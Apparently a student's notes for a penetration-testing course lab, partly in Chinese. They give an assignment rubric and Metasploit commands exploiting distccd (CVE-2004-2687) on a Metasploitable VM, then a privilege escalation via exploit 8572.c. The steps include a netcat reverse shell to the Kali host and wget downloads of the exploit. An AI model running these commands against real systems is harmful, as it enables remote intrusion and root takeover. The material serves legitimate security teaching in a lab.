 # computersecurity

pentesting 渗透

### p1

1)The attack was conducted successfully, as shown by the screenshots (20 points)

\2) No step is missing for replicating the attack (15 points)

\3) The demonstration includes comprehensive explanations of each step, appropriate for a target audience similar to the other students taking this course (15 points)

学生必须利用并记录漏洞 CVE-2004-2687。Distcc 是一个用于在网络上的多台机器上分发 C、C++、Objective C 或 Objective C++ 代码构建的程序。distcc 应始终生成与本地构建相同的结果，易于安装和使用，并且通常比本地编译快得多。distcc 2.x（如 XCode 1.5 和其他版本中使用的），当未配置为限制对服务器端口的访问时，允许远程攻击者通过编译作业执行任意命令，这些命令由服务器在未经授权检查的情况下执行。distcc 不执行任何连接身份验证或授权，而是依赖第三方访问控制。该缺陷可能允许任意命令执行，从而导致完整性丧失。对于此问题，学生必须运行 Kali Linux 和 Metasploitable VM，并演示如何运行 distccd 漏洞利用。解释应该采取演示的形式，说明攻击的每一步，就像写报告或博客文章一样。

特别要注意以下几点：

-  演示应包括攻击的每一步，并从登录 Kali 和 Metasploitable 开始（可以省略 VM 安装）。攻击本身必须首先提取易受攻击的虚拟机的 IP（例如，使用 ifconfig）并使用 nmap 工具运行端口扫描。

- 演示应该完整、全面。考虑到目标受众与班上其他学生具有相同的水平，但没有使用 Metasploit 的经验。
-  演示应包括各个步骤的屏幕截图，突出显示重要信息（例如，正在运行哪个命令或输出中需要注意哪些信息）。演示可以采用报告（连续文本）、幻灯片或博客文章的形式。它可以以 PDF（报告/幻灯片）或 html 格式提交。无论哪种方式，演示都必须包括文字描述，

1. **设置环境：**运行 Kali Linux 和 Metasploitable VM。
2. **识别易受攻击的系统：**使用 Kali 等工具`ifconfig`来识别 IP 地址并`nmap`扫描 Metasploitable VM 上的开放端口。
3. **利用漏洞：**一旦识别出存在漏洞的服务（在本例中为 distccd），就可以使用 Metasploit 来利用该漏洞。这可能涉及在 Metasploit 中查找与 CVE-2004-2687 漏洞相关的特定模块，并使用它来获取访问权限或在远程系统上执行命令。
4. **记录过程：**每个步骤的屏幕截图和描述至关重要。这些应该突出显示所使用的命令、收集的信息以及成功的利用（如果这是目标）。





https://blcklstdbb.gitbooks.io/hackmd/content/lesson-2-samba-exploit.html



### problem2

Selected two CVEs, present in Metasploitable, to perform code
injection and privilege escalation 特权提升, but did not build them into
a complete attack (10 points out of 50).
\2) The attack was built properly and completely (and is described
in the text document deliverable), but does not work (20 points
out of 50).
\3) The attack was built and implemented properly, but the script
needs tweaks or fixes to run on stock Kali Linux (35 points out
of 50).
\4) The attack was built properly, the script runs and completes the
assignment (45 points out of 50)
\5) Same as above, and the attack leaves no trace (filesystem
permissions, additional files…) (50 points out of 50)  

```bash

msfconsole
use exploit/unix/misc/distcc_exec
set RHOST 192.168.23.132
set payload 0
exploit -z

sessions -l
sessions -i 1


```

怎么看是否是privileged process?

distcc就不是特权进程。 







```bash
uname -a
lsb_release -a
searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6
less /usr/share/exploitdb/exploits/linux/local/8572.c
service apache2 restart
sudo ln -s /usr/share/exploitdb/exploits/linux/local/8572.c /var/www/html/
sudo nano /var/www/html/run
#!/bin/bash
nc 192.168.23.131 12345 -e /bin/bash

msfconsole
use exploit/unix/misc/distcc_exec
set RHOST 192.168.23.132
set LHOST 192.168.23.131
set payload 5
exploit 

wget http://192.168.23.131/run
wget http://192.168.23.131/8572.c
gcc -o exploit 8572.c # On Kali, in your low-privilege shell, execute these commands to compile the exploit file and list files.
ps aux | grep udev
./exploit 2737
```

